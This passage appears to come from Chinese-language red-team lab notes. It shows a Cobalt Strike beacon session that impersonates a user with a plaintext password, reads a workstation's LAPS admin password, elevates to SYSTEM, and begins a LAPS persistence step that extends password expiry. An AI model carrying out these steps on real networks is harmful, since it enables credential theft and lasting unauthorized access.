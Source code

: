 
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj></Objs>
beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1125
[*] Tasked beacon to run: ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1125
[+] host called home, sent: 433 bytes
[+] received output:
#< CLIXML
DEV\1st Line Support
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj></Objs>
beacon> make_token DEV\jking Purpl3Drag0n
[*] Tasked beacon to create a token for DEV\jking
[+] host called home, sent: 40 bytes
[+] Impersonated NT AUTHORITY\SYSTEM
beacon> powershell Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
[*] Tasked beacon to run: Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
[+] host called home, sent: 433 bytes
[+] received output:
#< CLIXML

ms-mcs-admpwd 
------------- 
fk43i9785W8Cw5


```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661473011405.png)


# LAPS Persistence

原理是通过延长密码的有效期达到长期控制的目的，此操作需要system权限

升级到system权限
```
beacon> elevate svc-exe tcp
[*] Tasked beacon to run windows/beacon_bind_tcp (0.0.0.0:4444) via Service Control Manager (\\127.0.0.1\ADMIN$\ed40c83.exe)
[+] host called home, sent: 315466 bytes
[+] received output:
Started service ed40c83 on .
[+] established link to child beacon: 10.10.17.132
```

设置密码过期时间到2338年
```
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
[*] Tasked beacon to import: C:\Tools\PowerSploit\Recon\PowerView.ps1
[+] host called home, sent: 145560 bytes
beacon> powershell Get-DomainObject -Identity wkstn-2 -Properties ms-mcs-admpwdexpirationtime
[*] Tasked beacon to run: Get-DomainObject -Identity wkstn-2 -Properties ms-mcs-admpwdexpirationtime
[+] host called home, sent: 465 bytes
[+] received output:
#< CLIXML
